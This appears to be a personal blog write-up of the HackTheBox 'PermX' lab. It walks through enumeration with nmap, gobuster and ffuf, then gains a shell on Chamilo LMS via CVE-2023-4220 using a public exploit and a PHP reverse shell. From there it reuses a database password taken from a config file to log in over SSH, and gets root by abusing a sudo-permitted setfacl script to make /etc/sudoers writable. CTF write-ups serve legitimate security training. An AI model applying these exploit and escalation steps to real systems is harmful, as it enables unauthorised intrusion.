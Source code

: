 ```yaml
---
title: "HackTheBox: PermX"
date: "2024-11-02"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/permx/0-htb-permx.png)

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: ssh
- 80: http

Using the ports we can look deeper and verify the software versions:

- 22: OpenSSH 8.9p1
- 80: Apache httpd 2.4.52

![Image](assets/img/writeups/hackthebox/permx/1-nmap.png)

![Image](assets/img/writeups/hackthebox/permx/2-nmap-sv.png)

Lets take a look at that website!

### Enumeration - HTTP

(Note: quickly before we begin, let's add the host information to the `/etc/hosts` file)

![Image](assets/img/writeups/hackthebox/permx/7-hosts.png)

Now back to hacking:

![Image](assets/img/writeups/hackthebox/permx/3-http.png)

We see that it is some sort of eLearning website (as seen by the big logo!). I tried to poke around the links, but wasn't able to find any pages which really caught my eye. I decided to use some tools here which could help me out!

I used GoBuster first - this is one of my go-to web-enumeration tools.

(Note: the below command works because I put the permx IP address in the `/etc/hosts` file)

```sh
$ gobuster dir \
-w /usr/share/wordlists/dirbuster/directory-list-2-3.medium.txt \
- u http://permx.htb
```

Interestingly gobuster didn't really have so much information for us. At first glance, it appears as if these are just directories used for the data that is on the website. For example:

- `/img`
- `/css`
- `/lib`
- `/js`
- `/server-status` (notably this is HTTP 403 Forbidden, which is pretty standard)

![Image](assets/img/writeups/hackthebox/permx/4-gobuster.png)

It seems like GoBuster isn't able to help us out here in the directories. So the next step is to fuzz for subdomains! I haven't done this in a while, so I had to read up a bit on fuzzing for subdomains. I was quickly reminded about the tool `ffuf`.

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![Image](assets/img/writeups/hackthebox/permx/5-ffuf1.png)

We quickly see that practically all responses are 18 words. We're looking for the needle in the haystack here. Good thing is that we can filter by the amount of words in the response! (Use the `-fw` flag)

```sh
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
```

![Image](assets/img/writeups/hackthebox/permx/6-ffuf-2.png)

Straight away we have a more useful response here. We have two subdomains:

1. `www`= `http://www.permx.htb`
2. `lms`= `http://lms.permx.htb`

The `lms` subdomain looks intersting. Let's check it out!

## Initial Exploit Shell

We have a couple of different paths that we could take here. For example we could try to brute-force the credentials, but it could take a while because we aren't aware of the username (beyond `administrator` which we see on the bottom right of the screenshot.).

![Image](assets/img/writeups/hackthebox/permx/8-lms.permx.htb.png)

In the end I decided to simply Google some vulnerabilities of the Chamilo LMS. The first page on Google shows a lot of links towards an unauthorized RCE vulnerability. The main one which we are looking at here is [`CVE-2023-4220`](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). There was a pretty handy GitHub repo with a prepared exploit ([GitHub Repo](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit)). I quickly prepared the [pentestmonkey phpreverseshell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), and fired up the exploit:

```sh
./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 4444
```

![Image](assets/img/writeups/hackthebox/permx/9-init-shell.png)

## Post-Exploitation: Getting to the local user

Right now we are in a pretty basic shell as `www-data`. Basically my first hope here is to find some (re-used) credentials in the system. So I decided to find and check the contents of some configuration files, using this command:

```sh
find . -type f -name "*configuration*" 2>/dev/null
```

And we are presented with a load of configuration files within the Chamilo app. This is the one where the credentials were stored in:

```sh
./var/www/chamilo/app/config/configuration.php
```

![Image](assets/img/writeups/hackthebox/permx/10-search-configuration.png)

```php
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3386';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;
```

![Image](assets/img/writeups/hackthebox/permx/11-read-configuration.png)

I thought I would try my luck, and check if the password used here is re-used for the main user account. We quickly have to check the `/etc/passwd` file to find out the username.

![Image](assets/img/writeups/hackthebox/permx/12-read-etc-passwd.png)

And let's try to login wih SSH :)... Success! Time to escalate to root.

## Privilege Escalation

My first step is to use the good old [LinPEAS script](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). Straight away this gives us a pretty big hint; mainly that the `mtz` user is allowed to execute the `/opt/acl.sh` script with root privileges, without the root password.

![Image](assets/img/writeups/hackthebox/permx/13-linpeas.png)

![Image](assets/img/writeups/hackthebox/permx/14-sudoL.png)

This is the code of that script:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

$ Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Basically, this script uses the `setfacl` binary to set permissions to a target file, all based on the command line arguments. The `setfacl` is executed in root context (`/usr/bin/sudo`) and can be executed without root password (as we saw in the `sudo -l` command).

There are even some security features built into this script, so nothing can go wrong... ;)

1. Restricts operations to files in /home/mtz/.
2. Prevents directory traversal attacks.
3. Ensures the target is a valid file.

Anyways... enough kidding ourselves. It's time to hack!

The `setfacl` is a LOLBAS or [GTFOBin](https://gtfobins.github.io/gtfobins/setfacl/). Let's try to exploit it!

This took quite a bit of reading up for me, but this is what I came up with in the end. These are the steps:

1. Create a symlink file of the `/etc/sudoers` file, and name it `lolbas` within the mtz home directory.
2. Execute the script, adding rwx permissions to our symlink file (the goal is to be able to write to the `/etc/sudoers` file).
3. Edit the `lolbas` file (symlink of `/etc/sudoers`), and allow mtz user to execute sudo without password (seen in the screenshot below).
4. Escalate to root :)

![Image](assets/img/writeups/hackthebox/permx/15-edit-sudoers.png)

And that's it!

![Image](assets/img/writeups/hackthebox/permx/16-privesc_complete.png)

Thanks for reading :)
